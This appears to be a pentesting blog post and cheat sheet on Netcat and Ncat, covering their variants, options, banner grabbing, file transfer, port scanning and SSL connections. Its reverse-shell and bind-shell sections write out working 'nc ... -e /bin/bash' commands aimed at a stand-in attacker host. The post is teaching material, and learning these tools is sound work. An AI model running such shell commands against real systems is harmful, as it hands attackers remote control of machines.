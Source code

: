 ```yaml
---
title: "Netcat"
layout: default 
categories: [pentesting ,tools]
tags: [netcat, cheat-sheet, ncat, scanning, networking]
---
```


# Intro to Netcat

When it comes to networking and pentesting, **Netcat** (often shortened to `nc`) is known as the *Swiss Army Knife of networking*. It can read and write data across TCP and UDP connections, making it useful for everything from banner grabbing to file transfers, from simple debugging to creating backdoors.  

I’m writing this post because **Ncat/Netcat is an important tool**, but I found that while platforms like *TryHackMe* have some great resources, other blogs are often incomplete, outdated, or outright incorrect. This post aims to bring everything together in one place — both the traditional `nc` and the modern `ncat` — with detailed explanations.

---

## What is Netcat?

Netcat is a command-line networking tool that can:

- Connect to remote hosts and ports (client mode).  
- Listen for incoming connections (server mode).  
- Transfer files.  
- Set up simple chat sessions.  
- Provide remote shells (with the `-e` option in older builds).  

Because of its flexibility, it’s often referred to as a **Swiss Army Knife for networking tasks**.

See the posts in repo,for .md file
www.github.com/Nighty-Sky/blog/
for cheat-sheet.

---

## Netcat Variants

- **`nc.traditional`** → The original version, still available on some Linux distributions. Supports the infamous `-e` option.  
- **`netcat-openbsd`** → A safer reimplementation; it removes the dangerous `-e` feature by default.  
- **`ncat`** → A modern reimplementation, maintained by the [Nmap Project](https://nmap.org/ncat/). Supports SSL, proxies, connection brokering, and access control.  

---

## `nc.traditional` Help Output

Running `nc.traditional -h` shows:

connect to somewhere:   nc [-options] hostname port[s] [ports] ... listen for inbound:     nc -l -p port [-options] [hostname] [port] options: -c shell commands   as `-e'; use /bin/sh to exec [dangerous!!] -e filename         program to exec after connect [dangerous!!] -b                  allow broadcasts -g gateway          source-routing hop point[s], up to 8 -G num              source-routing pointer: 4, 8, 12, ... -h                  this cruft -i secs             delay interval for lines sent, ports scanned -k                  set keepalive option on socket -l                  listen mode, for inbound connects -n                  numeric-only IP addresses, no DNS -o file             hex dump of traffic -p port             local port number -r                  randomize local and remote ports -q secs             quit after EOF on stdin and delay of secs -s addr             local source address -T tos              set Type Of Service -t                  answer TELNET negotiation -u                  UDP mode -v                  verbose [use twice to be more verbose] -w secs             timeout for connects and final net reads -C                  Send CRLF as line-ending -z                  zero-I/O mode [used for scanning]

---

## Key Options Explained

- **`-l`** → Listen mode, to accept incoming connections.  
- **`-p`** → Specify the local port.  
- **`-v`** → Verbose output (use twice for extra details).  
- **`-n`** → Skip DNS lookups (numeric IPs only).  
- **`-u`** → UDP mode instead of TCP.  
- **`-w`** → Timeout for connects and reads.  
- **`-z`** → Zero-I/O mode, useful for port scanning.  
- **`-e` / `-c`** → Execute a program after connection (*dangerous; removed in OpenBSD’s version*).  

---

## Common Use Cases

### 1. Simple TCP Client
```bash
nc example.com 80
```
Connects to port 80 (HTTP) and allows you to type raw requests manually.


---

2. Banner Grabbing
```bash
nc -v target.com 21
```
Attempts a connection to FTP (port 21) and often reveals service banners (useful for identifying services and versions).


---

3. File Transfer

On the receiver machine:
```bash
nc -l -p 8888 > file.txt
```
On the sender machine:
```bash
nc target_ip 8888 < file.txt
```
Quick file transfer without FTP/SSH.


---

4. Reverse Shell

Attacker (listening):
```bash
nc -lvnp 4444
```
Victim:
```bash
nc attacker_ip 4444 -e /bin/bash
```
Gives the attacker a shell when the victim connects back.


---

5. Bind Shell

Victim (listening):
```bash
nc -lvnp 4444 -e /bin/bash
```
Attacker:
```bash
nc victim_ip 4444
```
---

Reverse Shell vs Bind Shell (Quick Diagram)

Bind Shell → Victim opens a port, attacker connects in.


[Attacker] --> Connects --> [Victim Listening]

Reverse Shell → Victim connects back to attacker’s listener.


[Victim] --> Connects --> [Attacker Listening]


---
6. Port Scanning

Although Nmap is the industry standard for port scanning, Netcat can also be used for basic scans. With the -z (zero-I/O) option, Netcat will attempt to connect to ports without sending any data, making it useful for a quick check of open ports. Combine this with -v (verbose) to see which ports respond.

Example – Scan a range of ports:
```bash
nc -zv target.com 20-1000
```
-z → Zero-I/O mode (just checks if port is open).

-v → Verbose mode (tells you what’s happening).

20-1000 → Port range to scan.


Output will look something like:

Connection to target.com 22 port [tcp/ssh] succeeded!
Connection to target.com 80 port [tcp/http] succeeded!

This quickly shows open ports, but remember — it’s slower and less feature-rich than Nmap. Still, it’s handy when Nmap isn’t available.


---

What About Ncat?

While Netcat remains widely used, Ncat (from the Nmap project) adds features like:

SSL/TLS support → Encrypted communication.

Proxy support → Works with SOCKS4, SOCKS5, or HTTP proxies.

Connection brokering → Multiple clients can share data.

Access control → Use --allow / --deny to restrict connections.

Chat mode → Built-in multi-user chat.


Example (SSL connection):
```bash
ncat --ssl example.com 443
```

---

Security Considerations

Using -e to spawn shells is extremely risky — many modern builds disable it.

Always restrict listening ports with firewalls when running in server mode.

Remember: tools like Netcat are double-edged swords — invaluable for sysadmins and pentesters, but also abused by attackers.


✅ In summary: Netcat (and Ncat) are must-know tools for anyone learning pentesting or networking. They’re simple, lightweight, and extremely powerful when combined with other techniques.

---
